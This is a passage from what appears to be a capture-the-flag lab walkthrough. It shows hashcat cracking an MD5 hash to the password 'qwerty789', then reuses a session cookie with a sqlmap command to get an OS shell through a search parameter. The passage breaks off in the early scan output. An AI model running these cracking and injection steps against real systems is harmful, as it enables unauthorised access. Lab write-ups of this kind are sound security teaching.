 ```
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

2cb42f8734ea607eefed3b70af13bbd3:qwerty789       
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 2cb42f8734ea607eefed3b70af13bbd3
Time.Started.....: Wed Nov 22 18:44:55 2023 (1 sec)
Time.Estimated...: Wed Nov 22 18:44:56 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   668.5 kH/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 102400/14344385 (0.71%)
Rejected.........: 0/102400 (0.00%)
Restore.Point....: 98304/14344385 (0.69%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Dominic1 -> birth

Started: Wed Nov 22 18:44:24 2023
Stopped: Wed Nov 22 18:44:57 2023
```
The original password is `qwerty789`
### Web Application Analysis
We access the website with http://10.129.175.136/, now we can access http://10.129.175.136/dashboard.php, once in we find a catalogue, so we try to perform a query. After performing the query the URL looks like `http://10.129.175.136/dashboard.php?search=some`, so it looks like we can perform a SQL Injection

First of all we need to gran our session cookie, to do this we can use the advanced tools of the web-browser we are currently using.

`PHPSESSID=thfcev7fbaca5v0bo0oe7rhljp`

Once we have the cookie we can perform a SQLI, we only need to mark to the tool where can it try to perform the injection by adding a `*` in this part of the URL, we also have to use the cookie we just extracted before. The final command looks like this `sqlmap -u 'http://10.129.175.136/dashboard.php?search=*' --cookie PHPSESSID=thfcev7fbaca5v0bo0oe7rhljp --os-shell`
```
       ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:22:06 /2023-11-22/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] 
[19:22:09] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[19:22:09] [INFO] testing connection to the target URL
[19:22:09] [INFO] testing if the target URL content is stable
[19:22:09] [INFO] target URL content is stable
[19:22:09] [INFO] testing if URI parameter '#1*' is dynamic
[19:22:09] [INFO] URI parameter '#1*' appears to be dynamic
```